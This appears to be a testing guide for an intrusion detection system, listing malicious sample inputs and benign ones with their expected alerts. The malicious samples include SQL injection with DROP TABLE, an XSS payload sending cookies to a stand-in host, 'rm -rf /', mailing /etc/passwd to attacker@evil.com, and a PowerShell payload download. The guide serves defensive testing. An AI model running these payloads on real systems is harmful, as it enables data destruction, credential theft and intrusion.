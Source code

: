 # 🧪 Complete Testing Guide - Intrusion Detection System

## 🎯 **READY-TO-USE TEST DATA**

I've created all the test files you requested. Here's what you can test immediately:

---

## 📝 **TEXT ANALYSIS TESTS**

### 🔴 **MALICIOUS EXAMPLES (Copy and paste these into the text box):**

#### Test 1: SQL Injection
```
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1' --
UNION SELECT username, password FROM admin_users; DROP TABLE users;
```
**Expected Result**: 🚨 HIGH severity - SQL injection patterns detected

#### Test 2: XSS Attack  
```
<script>alert('Your session has been hijacked!');</script>
<img src="x" onerror="document.location='http://malicious-site.com/steal?cookie='+document.cookie">
```
**Expected Result**: 🚨 HIGH severity - XSS attack patterns detected

#### Test 3: Command Injection
```
user@example.com; rm -rf /; cat /etc/passwd | mail attacker@evil.com
powershell.exe -Command "Invoke-WebRequest -Uri 'http://malicious.com/payload.exe' -OutFile 'C:\temp\malware.exe'"
```
**Expected Result**: 🚨 CRITICAL severity - Command injection patterns detected

### 🟢 **NORMAL EXAMPLES (Should be clean):**

#### Test 4: Normal User Input
```
Hello, I would like to update my profile information. My name is John Doe and I work as a software engineer. Please help me change my contact details.
```
**Expected Result**: ✅ No intrusion detected

#### Test 5: System Message
```
System backup completed successfully at 2024-01-15 10:30:00. All files have been archived to the backup server. Next scheduled backup: 2024-01-16 10:30:00.
```
**Expected Result**: ✅ No intrusion detected
